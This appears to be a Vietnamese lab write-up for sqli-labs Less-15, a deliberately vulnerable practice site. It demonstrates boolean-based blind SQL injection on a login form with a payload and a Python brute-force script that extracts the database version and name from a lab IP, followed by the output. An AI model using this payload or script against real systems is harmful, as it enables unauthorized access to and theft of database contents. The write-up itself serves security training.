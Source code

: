 # Less 15

Ta thấy có khung đăng nhập

![](../images/sqli-labs/Less-15/01.png)

Thử đăng nhập sai

![](../images/sqli-labs/Less-15/02.png)

Sau nhiều lần thử tôi thấy ở bài này không hiển thị lỗi ra ngoài màn hình. Chỉ xác nhận là login thành công hay thất bại. Ở bài này ta không thể khai thác bằng cách cho nó hiển thị lỗi ra ngoài màn hình giống như các bài trước. Nhưng ở đây ta có thể thử để tìm kiếm dữ liệu trong DB. Sau nhiều lần thì tôi có thể login mà không cần user hay password

![](../images/sqli-labs/Less-15/03.png)

![](../images/sqli-labs/Less-15/04.png)

Ta có thể dự đoán thông tin bằng cách tương tự như sau

```
1' or substr((select @@version),1,1)='5' -- 
```

Thấy đã thực hiện login thành công

![](../images/sqli-labs/Less-15/05.png)

Tương tự như vậy để thuận tiên cho việc tìm kiếm thông tin trong DB tôi sử dụng đoạn script

Ví dụ show tên DB đang sử dụng

```
import requests
import string

text = "../images/flag.jpg"
query = "select @@version"
passwd = ""
url_1="http://192.168.84.233/sqli-labs/Less-15/"
param_1 = "1' or substr(("
param_2 = "),{},1)='{}' -- "
param = param_1 + query + param_2

lists=string.printable

for n in range(1,18):
    for i in lists:
        username = param.format(n,i)
        data={"uname": username, "passwd":passwd}
        res = requests.post(url=url_1, data=data)
        if text in res.text:
            print(i)
            break
```

Kết quả như sau

```
python Sql-boolean-post.py 
5
.
5
.
6
0
-
m
a
r
i
a
d
b
```

Show tên DB

```
import requests
import string

text = "../images/flag.jpg"
query = "select database()"
passwd = ""
url_1="http://192.168.84.233/sqli-labs/Less-15/"
param_1 = "1' or substr(("
param_2 = "),{},1)='{}' -- "
param = param_1 + query + param_2

lists=string.printable

for n in range(1,18):
    for i in lists:
        username = param.format(n,i)
        data={"uname": username, "passwd":passwd}
        res = requests.post(url=url_1, data=data)
        if text in res.text:
            print(i)
            break

```

Kết quả như sau

```
python Sql-boolean-post.py 
s
e
c
u
r
i
t
y
```

Tương tự như vậy ta có thể show các thông tin khác của DB giông như những bài trước. Hoặc ta có thể tận dụng đây để thêm vào server một đoạn code PHP như các bài trước